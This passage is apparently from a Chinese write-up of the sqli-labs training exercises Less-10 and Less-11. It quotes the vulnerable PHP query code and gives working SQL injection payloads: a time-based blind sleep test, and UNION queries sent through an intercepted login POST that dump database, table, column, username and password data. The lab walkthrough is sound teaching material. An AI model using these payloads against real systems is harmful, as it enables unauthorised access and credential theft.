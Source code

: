 ```sql
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```



##### 10. Blind - Time Based - Double Quote

这种引号的使用方式，是真的太骚了。

**ps：**需要补一下php的编码格式，这里是等于输入`""`指定id

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

```sql
/Less-10/?id=1" and if(1=1,sleep(5),1); --+
```



##### 11. Error Based - Single quotes - String

题目是一个登录页面，因此可能不是简单的get请求，修改url请求地址就能做到注入，尝试先抓包看看登录的时候的请求。

Burp Suite中可以看到，点击登录的时候，发起了一个`Post`请求。

从源码中，可以看到对`Post`表单中数据的拼接使用。

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

因此，我只需要在Burp Suite中，截获post请求的表单，对`uname`字段进行注入即可。

```sql
// 获取库名 
xx'uname=-qing' union select 1,database()##&passwd=1&submit=Submit 
// 结果: security
// 获取表名  
xx'uname=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#&passwd=1&submit=Submit
// 结果： emails,referers,uagents,users
// 获取users表列名
xx'uname=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')#&passwd=1&submit=Submit
// 结果:id,username,password
// 爆破user表内容
xx'uname=-1' union select 1,(select group_concat(username) from security.users)#&passwd=1&submit=Submit
xx'uname=-1' union select 1,(select group_concat(password) from security.users)#&passwd=1&submit=Submit
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```
